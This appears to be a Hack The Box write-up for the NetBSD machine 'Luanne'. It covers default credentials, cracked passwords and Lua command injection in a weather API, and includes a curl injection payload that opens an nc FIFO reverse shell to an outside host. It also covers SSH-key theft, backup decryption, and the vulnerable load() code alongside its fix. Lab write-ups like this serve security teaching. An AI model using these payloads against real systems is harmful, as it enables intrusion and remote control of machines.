 **HTB: Luanne Walkthrough**

---

### Recon

**Nmap Scan:**
- Open ports: 22 (SSH), 80 (HTTP), 9001 (Supervisor Process Manager)
- OS: NetBSD
- TCP 9001 is running Supervisor Process Manager, protected by HTTP Basic Auth

**Supervisor Manager:**
- Default credentials `user:123` worked
- Found process showing `/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua`
- Indicates a Lua script serving weather API on localhost:3000

**Port 80 HTTP:**
- Protected by HTTP Basic Auth
- `.htpasswd` file found with hash
- Cracked to `webapi_user:iamthebest`
- Gave access to basic HTML with links to the weather API

---

### Weather API Enumeration

- Endpoint: `/weather/forecast`
- Accepts parameter: `city`
- `city=list` reveals cities
- Invalid city gives a 500 error with `unknown city: input`

**Potential Injection Point:**
- Submitting `'` crashes script
- Submitting `') os.execute('id') --` results in command execution
- Verified command injection via Lua using `os.execute`

**Reverse Shell via FIFO method:**
```bash
curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f') --" 'http://10.10.10.218/weather/forecast'
```
- Connected back as user `_http`

---

### PrivEsc to `r.michaels`

**In `/var/www`:**
- `.htpasswd` file with different hash
- Cracked to `webapi_user:iamthebest`

**From supervisord output:**
- User `r.michaels` running another web server on 127.0.0.1:3001
- Lua script served from `/home/r.michaels/devel/webapi/weather.lua`

**Localhost Port 3001:**
- Used credentials on `http://127.0.0.1:3001/~r.michaels/`
- Directory listing exposed `id_rsa`
- SSH key retrieved and used to login as `r.michaels`

---

### PrivEsc to root

**Found `/usr/pkg/etc/doas.conf`:**
- Allowed `r.michaels` to run anything as root
- Needed password

**Found encrypted backup in `~/backups/`:**
- `devel_backup-2020-09-16.tar.gz.enc`

**Used netpgp to decrypt:**
```bash
netpgp --decrypt --output=/tmp/backup.tar.gz backups/devel_backup-2020-09-16.tar.gz.enc
```

**Inside decrypted archive:**
- Found `.htpasswd` with hash
- Cracked to `littlebear`
- Used with `doas` to get root shell:
```bash
doas -u root sh
Password: littlebear
```

**Root Flag Captured**

---

### Beyond Root: Lua Injection Insight

**Vulnerability was in:**
```lua
local json = string.format([[
  httpd.write('{"code": 500,')
  httpd.write('"error": "unknown city: %s"}')
]], city)
load(json)()
```
- Unescaped input allowed arbitrary code execution

**Fixed in dev version:**
```lua
httpd.write('"error": "unknown city: ' .. city .. '"}')
```
- Avoided use of `load()`

---

**Summary:**
- Initial foothold via Lua injection on weather API
- User escalation via exposed SSH key in web directory
- Root via encrypted backup revealing password used for `doas`

---

**Flags:**
- User: `ea5f0ce6...`
- Root: `7a9b5c20...`

---

